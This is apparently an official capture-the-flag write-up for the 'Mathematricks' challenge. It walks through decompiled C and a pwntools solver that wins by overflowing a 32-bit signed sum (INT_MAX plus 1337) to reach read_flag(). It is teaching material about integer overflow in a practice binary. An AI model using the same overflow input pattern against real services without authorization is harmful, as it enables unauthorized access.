



    	<font size="10">Mathematricks</font>

​		9<sup>th</sup> September 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 


# Synopsis

Mathematricks is a very easy difficulty challenge that features integer overflow vulnerability.

# Description

How about a magic trick? Or a math trick? Beat me and I will give you an amazing reward!

## Skills Required

- Basic C.

## Skills Learned

- Integer Overflow.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch: amd64
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see, all protection are enabled:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 





The challenge seems to have only 4 questions. The first 3 are pretty easy, leaving only the last one a bit more tricky. Well, without imaginary numbers, it's not possible to achieve the result of `(n1, n2) > 0 && (n1 + n2) < 0`. In `C` though, there is a limit to the integer values we can enter.

### Disassembly

Starting with `main()`:

```c
00001925  int32_t main(int32_t argc, char** argv, char** envp)

00001925  {
0000193a      void* fsbase;
0000193a      int64_t var_10 = *(uint64_t*)((char*)fsbase + 0x28);
00001940      banner();
0000194a      while (true)
0000194a      {
0000194a          uint64_t rax_3 = menu();
00001953          if (rax_3 == 1)
00001953          {
00001962              game();
00001962              /* no return */
00001953          }
00001959          if (rax_3 != 2)
00001959          {
00001959              break;
00001959          }
0000196e          rules();
0000194a      }
0000198e      printf("%s\n\t\t\t[???????????]\n\n", "\x1b[1;31m");
00001998      exit(0x520);
00001998      /* no return */
00001925  }
```

We see a call to `game()`. Taking a look at this:

```c
00001700  void game() __noreturn

00001700  {
00001715      void* fsbase;
00001715      int64_t var_10 = *(uint64_t*)((char*)fsbase + 0x28);
00001725      printstr(&data_2180);
00001734      printstr("\t\tQ1: 1 + 1 = ?\n\n\t\t> ");
00001747      if (read_num() != 2)
00001747      {
00001753          printstr("\n\t\t[!] Elementary school open…");
0000175d          exit(0x520);
0000175d          /* no return */
00001747      }
00001785      printf("\n\t\t%s[+] THAT WAS AMAZING!\n\n…", "\x1b[1;32m", "\x1b[1;34m");
00001794      printstr("\t\tQ2: 2 - 1 = ?\n\n\t\t> ");
000017a7      if (read_num() != 1)
000017a7      {
000017b3          printstr("\n\t\t[!] Elementary school open…");
000017bd          exit(0x520);
000017bd          /* no return */
000017a7      }
000017e5      printf("\n\t\t%s[+] WE HAVE A MATHEMATIC…", "\x1b[1;32m", "\x1b[1;36m");
000017f4      printstr("\t\tQ3: 1337 - 1337 = ?\n\n\t\t> ");
00001806      if (read_num() != 0)
00001806      {
00001812          printstr("\n\t\t[!] High school opens at 0…");
0000181c          exit(0x520);
0000181c          /* no return */
00001806      }
00001844      printf("\n\t\t%s[+] GOD OF MATHS JUST EN…", "\x1b[1;32m", "\x1b[1;34m");
00001853      printstr("\t\tQ4: Enter 2 numbers n1, n2 w…");
0000185d      uint64_t n1 = read_num();
00001870      printstr("\n\t\tn2: ");
0000187a      uint64_t n2 = read_num();
0000189e      if ((n1 > 0 && n2 > 0))
0000189e      {
000018bd          if ((n2 + n1) >= 0)
000018bd          {
000018d5              printstr("\n\t\t[!] Hacking school opens a…");
000018bd          }
000018bd          else
000018bd          {
000018c4              read_flag();
000018bd          }
000018df          exit(0x520);
000018df          /* no return */
0000189e      }
000018aa      printstr("\n\t\t[!] Hacking school opens a…");
000018b4      exit(0x520);
000018b4      /* no return */
00001700  }
```

First of all, we can see the answers of the first 3 questions. Then, for the last question, we need to take into consideration this part of code:

```c
00001853      printstr("\t\tQ4: Enter 2 numbers n1, n2 w…");
0000185d      uint64_t n1 = read_num();
00001870      printstr("\n\t\tn2: ");
0000187a      uint64_t n2 = read_num();
0000189e      if ((n1 > 0 && n2 > 0))
0000189e      {
000018bd          if ((n2 + n1) >= 0)
000018bd          {
000018d5              printstr("\n\t\t[!] Hacking school opens a…");
000018bd          }
000018bd          else
000018bd          {
000018c4              read_flag();
000018bd          }
000018df          exit(0x520);
000018df          /* no return */
0000189e      }
000018aa      printstr("\n\t\t[!] Hacking school opens a…");
000018b4      exit(0x520);
000018b4      /* no return */
00001700  }
```

The crucial part here is that these 2 numbers are `uint64_t`, meaning they are `unsigned int` for 64-bit. This is probably a fault of the decompiler, because in the source code (it's not provided, just for demonstration purposes), we can see that indeed these 2 numbers are `unsigned` but the result is a `signed 32` or `int32_t`.

```c 
  int64_t n1, n2;
  printstr("\t\tQ4: Enter 2 numbers n1, n2 where n1 > 0 and n2 > 0 and n1 + n2 < 0\n\n\t\tn1: ");
  n1 = read_num();
  printstr("\n\t\tn2: ");
  n2 = read_num();
  int32_t n3 = n1 + n2;
  if (n1 <= 0 || n2 <= 0) {
    printstr("\n\t\t[!] Hacking school opens at 13:37 AM, don't miss it!\n\n");
    exit(1312);    
  }
  (n3 < 0) ? read_flag() : printstr("\n\t\t[!] Hacking school opens at 13:37 AM, don't miss it!\n\n");
  exit(1312);
}
```

Taking a look at the `INT_MAX` value in `C`:



If we try to store this value to one of the numbers, and something else to the other, we can achieve an `Integer Overflow` and get the flag.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './mathematricks' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

sla = lambda x,y : r.sendlineafter(x,y)

sla('🥸 ', '1') # play game

# Questions
sla('> ', '2')
sla('> ', '1')
sla('> ', '0')
sla('n1: ', '2147483647') # INT_MAX
sla('n2: ', '1337')

print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```
